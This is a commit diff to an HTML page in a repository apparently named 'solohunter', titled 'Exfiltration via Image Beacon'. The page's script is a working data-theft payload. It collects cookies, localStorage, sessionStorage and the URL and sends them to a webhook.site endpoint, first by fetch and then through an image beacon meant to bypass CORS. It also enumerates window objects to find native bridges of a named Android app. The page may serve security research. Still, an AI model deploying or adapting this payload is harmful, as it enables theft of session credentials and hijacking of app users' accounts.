

Before and after one commit to keylorX/solohunter, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,30 +1,57 @@
 <!DOCTYPE html>
 <html>
 <head>
-    <title>Solohunter - Exfiltration</title>
+    <title>Solohunter - Exfiltration via Image Beacon</title>
 </head>
 <body>
     <pre id="output">Collecting data...</pre>
     <script>
-        // Gather data
-        const data = {
+        // Helper: send data via GET image beacon (bypasses CORS)
+        function sendBeacon(endpoint, params) {
+            var img = new Image();
+            var url = endpoint + '?' + Object.keys(params).map(function(k) {
+                return encodeURIComponent(k) + '=' + encodeURIComponent(params[k]);
+            }).join('&');
+            img.src = url;
+        }
+
+        var webhook = 'https://webhook.site/0090a7a3-5953-4053-b2f1-3498b6d1aae6';
+
+        // --- Part 1: Exfiltrate cookies, origin, etc. ---
+        var exfilData = {
             cookies: document.cookie,
             origin: location.origin,
             url: location.href,
             userAgent: navigator.userAgent,
+            xRequestedWith: 'com.buuuk.st',           // identify the target app
             localStorage: JSON.stringify(Object.entries(window.localStorage || {})),
             sessionStorage: JSON.stringify(Object.entries(window.sessionStorage || {}))
         };
 
-        // Send to webhook
-        fetch('https://webhook.site/0090a7a3-5953-4053-b2f1-3498b6d1aae6', {
-            method: 'POST',
-            headers: { 'Content-Type': 'application/json' },
-            body: JSON.stringify(data)
-        }).catch(err => console.error('Exfil failed:', err));
+        // Send as 'data' parameter (JSON stringified)
+        sendBeacon(webhook, { data: JSON.stringify(exfilData) });
 
-        // Display on page
-        document.getElementById('output').textContent = JSON.stringify(data, null, 2);
+        // --- Part 2: Enumerate all window objects (native bridge discovery) ---
+        var bridges = [];
+        for (var k in window) {
+            try {
+                if (typeof window[k] === 'object' && window[k] !== null) {
+                    bridges.push(k);
+                }
+            } catch(e) {
+                // Some properties may throw access errors; ignore them
+            }
+        }
+
+        // Send bridge list as comma-separated string
+        sendBeacon(webhook, { bridges: bridges.join(',') });
+
+        // Display collected data on page for debugging
+        document.getElementById('output').textContent = JSON.stringify({
+            exfilData: exfilData,
+            bridgeCount: bridges.length,
+            bridges: bridges
+        }, null, 2);
     </script>
 </body>
 </html>
```
